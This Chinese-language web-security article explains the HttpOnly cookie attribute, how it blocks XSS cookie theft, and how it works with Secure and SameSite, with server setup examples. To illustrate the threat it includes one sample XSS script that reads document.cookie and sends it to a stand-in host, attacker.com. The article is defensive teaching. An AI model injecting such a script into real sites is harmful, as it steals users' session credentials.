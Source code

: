 # HttpOnly Cookie
---
在 Web 开发中，我们常说「安全无小事」。但你是否想过，一个看似普通的 Cookie，可能成为黑客窃取用户身份的「钥匙」？

2002 年，微软在 IE6 中首次引入了一个不起眼的 Cookie 属性——`HttpOnly`。这个属性的诞生，彻底改变了客户端脚本与 Cookie 的交互规则，为防范跨站脚本攻击（XSS）筑起了一道关键防线。

## 一、为什么需要 HttpOnly Cookie？

要理解 HttpOnly 的价值，得先回到 Web 安全的经典威胁——**跨站脚本攻击（XSS）​**。

### 场景还原：XSS 如何窃取 Cookie？

假设某电商网站的用户登录后，服务器返回一个包含会话 ID 的 Cookie：

```
Set-Cookie: sessionId=abc123; Path=/; 
```

此时，若页面存在 XSS 漏洞（例如用户评论区未过滤恶意脚本），攻击者可以注入一段 JavaScript：

```
// 恶意脚本通过 document.cookie 窃取 Cookie
var cookie = document.cookie; 
// 发送到攻击者服务器
new Image().src = 'https://attacker.com/?data=' + encodeURIComponent(cookie);
```

这段代码会明文读取用户的 `sessionId`，并通过图片请求发送给攻击者。攻击者拿到会话 ID 后，就能冒充用户身份操作账户——这就是典型的「会话劫持」。

### 传统 Cookie 的缺陷：脚本可随意访问

普通 Cookie 的设计缺陷在于：​**客户端脚本（如 JavaScript）可以通过 `document.cookie` 接口自由读写 Cookie**。这原本是为了方便前端业务（例如记住用户偏好），但在 XSS 攻击面前，却成了致命漏洞。

## 二、HttpOnly Cookie 的核心机制

HttpOnly Cookie 的本质是**通过协议层约束，禁止客户端脚本访问敏感 Cookie**。它由服务器在响应头 `Set-Cookie` 中声明，浏览器会强制实施这一规则。

### 1. 如何声明 HttpOnly Cookie？

服务器只需在 `Set-Cookie` 头部添加 `HttpOnly` 标志即可。示例：

```
Set-Cookie: sessionId=abc123; Path=/; HttpOnly; Secure; SameSite=Lax
```

* `HttpOnly`：声明该 Cookie 仅限 HTTP(S) 协议层面使用，禁止任何客户端脚本（包括 JavaScript）通过 `document.cookie` 访问。
* 其他常见标志（如 `Secure`、`SameSite`）：与 HttpOnly 配合使用，进一步增强安全性（后文详述）。

### 2. 浏览器如何处理 HttpOnly Cookie？

当浏览器收到带有 `HttpOnly` 标志的 Cookie 时，会将其存储在一个**受保护的隔离区域**中。前端代码通过 `document.cookie` 只能访问非 HttpOnly 的 Cookie，而 HttpOnly Cookie 对脚本「完全不可见」。

举个例子：

* 普通 Cookie：`userToken=xyz`（可通过 `document.cookie` 读取）。
* HttpOnly Cookie：`sessionId=abc123; HttpOnly`（`document.cookie` 返回空字符串）。

### 3. 防御 XSS 的底层逻辑

即使页面被注入恶意脚本，攻击者也无法通过 `document.cookie` 窃取 HttpOnly Cookie。这意味着，XSS 攻击最多只能获取页面中明文存储的其他数据（如用户输入的内容），但无法拿到关键的会话凭证，会话劫持的风险被大幅降低。

## 三、实战：如何正确设置 HttpOnly Cookie？

### 1. 服务端设置示例

不同后端语言的实现方式类似，核心是在响应头中添加 `HttpOnly` 标志。

#### Node.js（Express）：

```
res.cookie('sessionId', 'abc123', { 
  httpOnly: true,  // 启用 HttpOnly
  secure: process.env.NODE_ENV === 'production',  // 生产环境强制 HTTPS
  sameSite: 'lax'  // 防御 CSRF
});
```

#### Java（Spring Boot）：

```
ResponseCookie cookie = ResponseCookie.from("sessionId", "abc123")
    .httpOnly(true)  // 启用 HttpOnly
    .secure(true)    // 生产环境强制 HTTPS
    .sameSite("Lax") // 防御 CSRF
    .path("/")       // 生效路径
    .build();
response.addHeader(HttpHeaders.SET_COOKIE, cookie.toString());
```

### 2. 注意事项

* ​**必须配合 HTTPS**​：`HttpOnly` 不限制 Cookie 的传输方式，若网站使用 HTTP，Cookie 可能在传输中被中间人窃取。因此，需同时启用 `Secure` 标志（仅 HTTPS 传输）。
* ​**不影响服务端操作**​：服务端仍可通过请求头 `Cookie` 正常读取 HttpOnly Cookie（例如验证会话），这一特性对业务逻辑无感知。

## 四、HttpOnly 与其他安全属性的协同

HttpOnly 并非「万能药」，需与其他 Cookie 属性配合，才能构建完整的安全体系。

### 1. Secure：传输层加密

`Secure` 标志强制 Cookie 仅在 HTTPS 连接下传输，防止中间人在网络层窃取 Cookie。它与 HttpOnly 是「互补关系」：HttpOnly 防止脚本窃取，Secure 防止传输窃取。

### 2. SameSite：跨站请求防护

`SameSite` 控制 Cookie 是否随跨站请求发送，可防范 CSRF（跨站请求伪造）攻击。例如：

* `SameSite=Strict`：仅在同站请求中发送 Cookie（最严格，但可能影响用户体验）。
* `SameSite=Lax`（默认推荐）：允许部分安全的跨站请求（如 GET 导航），阻止危险操作（如 POST 提交）。

### 3. 组合策略示例

一个安全的 Cookie 配置应包含：

```
Set-Cookie: sessionId=abc123; Path=/; HttpOnly; Secure; SameSite=Lax
```

## 五、局限性与最佳实践

### 1. HttpOnly 的边界

* ​**无法防御所有攻击**​：HttpOnly 能阻止 XSS 窃取 Cookie，但无法防御 XSS 执行的其他恶意操作（如修改页面内容、钓鱼攻击）。
* ​**不防 CSRF**​：CSRF 攻击的本质是「伪造用户请求」，即使 Cookie 是 HttpOnly，只要请求携带 Cookie（同站），仍可能被利用（需配合 SameSite 或 CSRF Token 防御）。

### 2. 最佳实践

* ​**敏感 Cookie 强制 HttpOnly**​：所有与会话、身份相关的 Cookie（如 `sessionId`、`token`）必须声明 `HttpOnly`。
* ​**最小化 Cookie 作用域**​：通过 `Path` 和 `Domain` 限制 Cookie 的生效范围（例如仅限 `/api` 路径），减少泄露风险。
* ​**定期轮换会话 ID**​：即使 Cookie 被窃取，短时效的会话 ID 能降低攻击窗口（可结合 `Max-Age` 或 `Expires`控制过期时间）。

## 总结

HttpOnly Cookie 是 Web 安全史上的一个关键创新，它通过协议层的约束，将敏感 Cookie 与客户端脚本隔离，为防范 XSS 攻击提供了「最后一道防线」。

但安全没有「银弹」——HttpOnly 需与 HTTPS、SameSite、CSRF Token 等机制配合，才能构建真正的安全体系。作为开发者，我们应当将其作为默认实践，在每一个需要身份验证的 Cookie 上打上 `HttpOnly` 的标记，让用户的会话凭证更安全一点。

毕竟，安全的本质，是用最小的代价，防范最大的风险。
